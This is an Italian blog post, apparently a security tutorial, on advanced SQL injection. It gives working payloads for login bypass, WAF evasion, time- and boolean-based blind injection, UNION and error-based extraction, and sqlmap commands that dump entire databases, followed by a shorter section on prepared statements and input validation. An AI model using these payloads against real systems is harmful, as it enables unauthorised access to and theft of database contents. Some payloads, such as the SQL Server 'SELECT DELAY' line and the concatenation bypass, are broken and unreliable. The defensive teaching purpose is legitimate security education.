 ```yaml
---
layout: ../../layouts/BlogLayout.astro
title: "SQL Injection Avanzate: Tecniche di Bypass e Blind Injection"
date: 2024-01-15
author: "stealth"
tags: ["web", "pwn"]
---
```


Le SQL Injection rappresentano ancora oggi una delle vulnerabilità più critiche nelle applicazioni web. In questo articolo analizziamo tecniche avanzate di exploiting e bypass dei filtri di sicurezza.


<Callout type="warning" title="Disclaimer Legale">
Questo articolo è puramente educativo. L'uso di queste tecniche su sistemi non autorizzati è illegale e contrario all'etica hacker.
</Callout>


## Introduzione alle SQL Injection

Le SQL Injection si verificano quando un'applicazione web non sanitizza correttamente l'input dell'utente prima di includerlo in una query SQL. Questo permette agli attaccanti di manipolare la struttura della query originale.

### Esempio base

```sql
-- Query vulnerabile
SELECT * FROM users WHERE username = '$username' AND password = '$password';

-- Payload di attacco
username: admin' OR '1'='1' --
password: qualsiasi
```

## Tecniche di Bypass

### 1. Bypass dei filtri WAF

Molti Web Application Firewall (WAF) implementano blacklist per bloccare payload comuni:

```sql
-- Bypass usando concatenazione
' + 'OR' + ' '1'='1' --

-- Bypass usando encoding
admin%27 OR %271%27%3D%271%27 --

-- Bypass usando commenti inline
admin'/**/OR/**/1=1#
```

### 2. Time-based Blind Injection

Quando l'applicazione non restituisce errori SQL visibili:

```sql
-- Test MySQL
admin' AND (SELECT SLEEP(5)) --

-- Test PostgreSQL  
admin' AND (SELECT pg_sleep(5)) --

-- Test SQL Server
admin' AND (SELECT DELAY '0:0:5') --
```

### 3. Boolean-based Blind Injection

Sfruttando differenze nel comportamento dell'applicazione:

```sql
-- Test lunghezza database
admin' AND (SELECT LENGTH(database())) > 5 --

-- Estrazione carattere per carattere
admin' AND (SELECT ASCII(SUBSTRING(database(),1,1))) > 97 --
```

## Tecniche di Estrazione Dati

### Union-based Injection

```sql
-- Determinare numero di colonne
admin' ORDER BY 1 --
admin' ORDER BY 2 --
admin' ORDER BY 3 -- (errore = 2 colonne)

-- Estrazione dati
admin' UNION SELECT username, password FROM users --
```

### Error-based Injection

```sql
-- MySQL
admin' AND (SELECT COUNT(*) FROM information_schema.tables GROUP BY CONCAT(version(),FLOOR(RAND(0)*2))) --

-- PostgreSQL
admin' AND (SELECT xmlagg(xmlelement("x", table_name)) FROM information_schema.tables) --
```

## Automazione con SQLMap

SQLMap è uno strumento essenziale per l'automazione degli attacchi SQL injection:

```bash
# Scansione base
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Bypass WAF
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,charencode

# Dump database
sqlmap -u "http://target.com/page.php?id=1" -D database_name --dump-all
```

## Prevenzione e Mitigazione

### 1. Prepared Statements

```php
// PHP PDO - Approccio sicuro
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

### 2. Stored Procedures

```sql
-- SQL Server
CREATE PROCEDURE GetUser
    @Username NVARCHAR(50),
    @Password NVARCHAR(50)
AS
BEGIN
    SELECT * FROM Users WHERE Username = @Username AND Password = @Password
END
```

### 3. Input Validation

```python
# Python - Validazione robusta
import re

def validate_input(user_input):
    # Whitelist approach
    if re.match("^[a-zA-Z0-9_]{3,20}$", user_input):
        return True
    return False
```

## Conclusioni

Le SQL Injection rimangono una minaccia seria nonostante i numerosi strumenti di protezione disponibili. La chiave è implementare una difesa a più livelli:

1. **Validazione rigorosa dell'input**
2. **Uso di prepared statements**
3. **Principio del minimo privilegio per gli account database**
4. **Monitoring e logging delle query anomale**

La sicurezza delle applicazioni web richiede un approccio proattivo e una comprensione approfondita delle tecniche di attacco per implementare contromisure efficaci.

<Callout type="info" title="Best Practice">
La chiave per prevenire le SQL Injection è implementare una difesa a più livelli combinando validazione dell'input, prepared statements e principio del minimo privilegio.
</Callout>